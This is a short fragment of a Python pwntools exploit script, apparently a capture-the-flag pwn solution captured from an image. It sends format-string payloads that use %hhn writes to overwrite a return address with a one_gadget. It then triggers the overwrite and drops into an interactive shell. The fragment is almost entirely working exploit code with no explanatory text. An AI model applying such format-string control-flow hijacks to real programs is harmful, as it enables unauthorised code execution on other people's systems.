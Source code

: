 ```py
payload = f"%{retn_addr % 0x100 + 2}c%26$hhn".encode() + b"\x00"
io.sendline(payload)

io.recvuntil(b"Enter your choice:")
payload = f"%{one_gadget // 0x10000 % 0x100}c%39$hhn".encode()
io.sendline(payload)

# gdb.attach(io, "b *$rebase(0x147A)\nb *$rebase(0x1520)")

io.sendline(b"3\x00")

io.interactive()
```